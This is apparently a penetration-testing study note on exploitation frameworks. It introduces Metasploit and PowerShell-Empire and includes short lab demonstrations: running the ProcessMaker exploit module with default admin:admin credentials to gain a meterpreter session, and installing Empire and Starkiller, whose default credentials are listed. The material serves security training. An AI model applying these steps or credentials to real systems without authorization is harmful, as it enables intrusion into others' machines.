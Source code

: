 # 6 - Exploitation Frameworks

## <mark style="color:red;">The Metasploit Framework (MSF)</mark>

* The Metasploit Framework (MSF) is an open-source, robust penetration testing and exploitation framework that is used by penetration testers and security researchers worldwide.
* It provides penetration testers with a robust infrastructure required to automate every stage of the penetration testing life cycle.
* It is also used to develop and test exploits and has one of the world's largest database of public, tested exploits.
* The Metasploit Framework is designed to be modular, allowing for new functionality to be implemented with ease.

### **Essential Terminology**

* **Interface** - Methods of interacting with the Metasploit Framework.
* &#x20;**Module** - Pieces of code that perform a particular task, an example of a module is an exploit.
* **Vulnerability** - Weakness or flaw in a computer system or network that can be exploited.
* **Exploit** - Piece of code/module that is used to take advantage of a vulnerability within a system, service or application.
* **Payload** - Piece of code delivered to the target system by an exploit with the objective of executing arbitrary commands or providing remote access to an attacker.
* **Listener** - A utility that listens for an incoming connection from a target.

### **Metasploit Framework Console**

* The Metasploit Framework Console (MSFconsole) is an easy-to-use all in one interface that provides you with access to all of the functionality of the Metasploit Framework.

### **Penetration Testing With MSF**

* The MSF can be used to perform and automate various tasks that fall under the penetration testing life cycle.
* In order to understand how we can leverage the MSF for penetration testing, we need to explore the various phases of a penetration test and their respective techniques and objectives.
* We can adopt the PTES (Penetration Testing Execution Standard) as a roadmap to understanding the various phases that make up a penetration test and how Metasploit can be integrated in to each phase.

<figure><img src="../../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

### Practical Demonstration

{% code overflow="wrap" %}
```bash
# nmap scan, we exploited the http server (process maker)
# we did a google search for the default credentials admin:admin

# click the [Admin] tab, Users tab or Settings tab, System information(get the version)-2.5.0

# we do a search with "searchsploit"
searchsploit ProcessMaker

# create a workspace, search ProcessMaker 
use exploit/multi/http/processmaker_exec
options
set PASSWORD admin
set USERNAME admin
set RHOSTS $ip
run/exploit # we get a meterpreter session.
# get the flag in the C:\ root dir. 
```
{% endcode %}





## <mark style="color:red;">PowerShell-Empire</mark>

* PowerShell-Empire (Aka Empire) is a pure PowerShell exploitation/post-exploitation framework built on cryptological-secure communications and flexible architecture.
* Empire implements the ability to run PowerShell agents without needing powershell.exe, rapidly deployable post-exploitation modules ranging from keyloggers to Mimikatz, and adaptable communications to evade network detection, all wrapped up in a usability-focused framework.
* PowerShell Empire recently received an update and is now officially supported and maintained by Kali Linux, more information regarding the update can be found here:
  * [https://kali.org/blog/empire-starkiller/](https://kali.org/blog/empire-starkiller/)

### <mark style="color:orange;">**Starkiller**</mark>

▪ In addition to being updated and modernized, BC Security, the company responsible for maintaining the Empire has also developed a companion to Empire called Starkiller.

▪ Starkiller is a GUI Frontend for the Powershell Empire. It is an Electron application written in VueJS and provides users with an intuitive way of interacting with Empire.

▪ In order to get an understanding of how Empire works and the components that make up the framework, I would recommend going through the official documentation which can be found here: [https://bc-security.gitbook.io/empire-wiki/](https://bc-security.gitbook.io/empire-wiki/)

▪ PowerShell-Empire & Starkiller are both available as packages in the Kali Linux repositories.

### **Practical Demonstration**

{% code overflow="wrap" %}
```bash
sudo apt-get install powershell-empire starkiller #Install PowerShell-Empire and Starkiller.
sudo powershell-empire server # Start the PowerShell-Empire server
sudo powershell-empire client # Start the PowerShell-Empire client, server must be running in order to use the client.

Empire > listeners #Show every active listener
Empire > agents #Show every exploited agents (hosts) you currently have access to

# starkiller is a frontend for powershell empire.
#Default Starkiller credentials empireadmin:password123
```
{% endcode %}



